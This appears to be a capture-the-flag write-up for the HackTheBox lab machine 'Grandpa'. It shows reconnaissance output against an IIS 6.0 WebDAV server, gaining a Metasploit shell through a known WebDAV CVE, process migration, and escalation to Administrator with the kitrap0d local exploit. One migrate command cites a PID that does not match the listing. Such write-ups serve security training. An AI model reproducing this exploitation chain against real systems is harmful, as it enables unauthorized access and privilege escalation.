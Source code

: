 # Grandpa

## Information Gathering
Grandpa<br>
10.10.10.14<br>

Software Versions
- MicrosoftOfficeWebServer 5.0_Pub
- Microsoft-IIS/6.0
- MS-FP/4.0,DAV

## Enumeration
Of course start with the nmap:
```bash
# Nmap 7.92 scan initiated Sun Feb 20 16:14:33 2022 as: nmap -sC -sV -oN nmap/grandpa.nmap -Pn 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.031s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Sun, 20 Feb 2022 21:21:45 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 16:14:45 2022 -- 1 IP address (1 host up) scanned in 12.10 seconds

```
Since there is a webserver I run a Nikto scan
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.14
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 1.1.4322
+ OPTIONS Retrieved dasl header: <DAV:sql>
+ OPTIONS Retrieved dav header: 1, 2
+ OPTIONS Retrieved ms-author-via header: MS-FP/4.0,DAV
+ OPTIONS Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: GET HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: GET HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: GET HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: GET HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: GET HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: GET HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ OPTIONS WebDAV enabled (COPY LOCK SEARCH UNLOCK MKCOL PROPPATCH PROPFIND listed as allowed)
+ OSVDB-13431: PROPFIND PROPFIND HTTP verb may show the servers internal IP address: http://10.10.10.14/
+ OSVDB-396: GET /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: GET /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: GET /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3500: GET /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. CVE-1999-1376. BID-2252.
+ OSVDB-67: POST /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ GET /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.

```
I also ran a DavTest because this webserver appears to be running WebDav:
```bash
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: XCfZ_8dkF
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     pl      FAIL
PUT     txt     FAIL
PUT     jsp     FAIL
PUT     php     FAIL
PUT     asp     FAIL
PUT     aspx    FAIL
PUT     jhtml   FAIL
PUT     cgi     FAIL
PUT     shtml   FAIL
PUT     cfm     FAIL
PUT     html    FAIL

********************************************************
/usr/bin/davtest Summary:
```
## Exploitation
Looking at the HTTP header, this server is running MS-FP/4.0DAV and Microsoft IIS 6.0. Doing a bit of searching reveals a CVE: https://www.exploit-db.com/exploits/41738<br> 
There is also a Metasploit module for this. Setting the options for Metasploit and running exploit pops a Metasploit shell. However, I do not have permissions to run getuid, probably because my user does not have permissions. This probably means I have to migrate to a different process. I read <a href="https://jlajara.gitlab.io/others/2018/11/26/process-migration.html">this</a> article about Metasploit migration since I've never done it before.
```
meterpreter> ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 584   392   svchost.exe
 668   392   svchost.exe
 736   392   svchost.exe
 768   392   svchost.exe
 788   392   svchost.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1064  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1312  392   VGAuthService.exe
 1380  392   vmtoolsd.exe
 1484  392   svchost.exe
 1588  392   svchost.exe
 1764  392   dllhost.exe
 1908  392   alg.exe
 1936  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2248  584   wmiprvse.exe
 2360  1484  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2432  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2480  2360  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe


```
I migrated to the wmiprvse.exe and get a suitable shell.
``` 
meterpreter > migrate 1935
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

## Privilege Escalation
Backgrounding the process and running the <b>mulit/recon/local_exploit_suggester</b>.
```
[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 38 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated. 
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated. 
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
The first exploit <b>exploit/windows/local/ms10_015_kitrap0d</b> got me an Administrator shell.
